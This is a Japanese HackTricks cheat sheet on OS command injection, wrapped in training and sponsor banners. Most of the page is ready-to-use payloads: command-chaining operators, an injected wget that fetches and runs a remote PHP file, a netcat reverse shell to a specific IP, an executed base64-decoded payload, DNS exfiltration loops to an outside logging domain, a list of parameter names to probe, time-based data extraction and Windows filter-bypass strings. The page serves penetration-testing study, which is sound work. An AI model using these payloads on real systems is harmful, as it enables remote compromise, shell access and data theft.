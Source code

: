 # コマンドインジェクション

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

[**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection)を使用して、世界で最も先進的なコミュニティツールによって駆動される**ワークフローを簡単に構築し、自動化**します。\
今すぐアクセスを取得：

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

## コマンドインジェクションとは？

**コマンドインジェクション**は、攻撃者がアプリケーションをホストしているサーバー上で任意のオペレーティングシステムコマンドを実行することを許可します。その結果、アプリケーションとそのすべてのデータが完全に侵害される可能性があります。これらのコマンドの実行により、攻撃者はアプリケーションの環境および基盤となるシステムへの不正アクセスまたは制御を得ることができます。

### コンテキスト

**入力がどこにインジェクトされているか**によって、コマンドの前に**引用されたコンテキストを終了する**必要があるかもしれません（`"`または`'`を使用）。

## コマンドインジェクション/実行
```bash
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```
### **制限** バイパス

もしあなたが **Linuxマシン内で任意のコマンドを実行しようとしている** のなら、この **バイパス** について読むことに興味があるでしょう:

{% content-ref url="../linux-hardening/bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../linux-hardening/bypass-bash-restrictions/)
{% endcontent-ref %}

### **例**
```
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80
vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```
### パラメータ

ここでは、コードインジェクションや同様のRCE脆弱性に対して脆弱である可能性のある上位25のパラメータを示します（[link](https://twitter.com/trbughunters/status/1283133356922884096)から）：
```
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```
### 時間ベースのデータ抽出

データの抽出: 文字ごとに
```
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```
### DNSベースのデータ流出

`https://github.com/HoLyVieR/dnsbin` からのツールに基づいており、dnsbin.zhack.caでもホストされています。
```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```
オンラインツールでDNSベースのデータ流出をチェックする：

* dnsbin.zhack.ca
* pingb.in

### フィルタリングバイパス

#### Windows
```
powershell C:**2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:**32\c*?c.e?e # calc
```
#### Linux

{% content-ref url="../linux-hardening/bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../linux-hardening/bypass-bash-restrictions/)
{% endcontent-ref %}

## ブルートフォース検出リスト

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/command_injection.txt" %}

## 参考文献

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
* [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection)を使用して、世界で最も高度なコミュニティツールによって駆動される**ワークフローを簡単に構築し、自動化**します。\
今すぐアクセスを取得：

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}
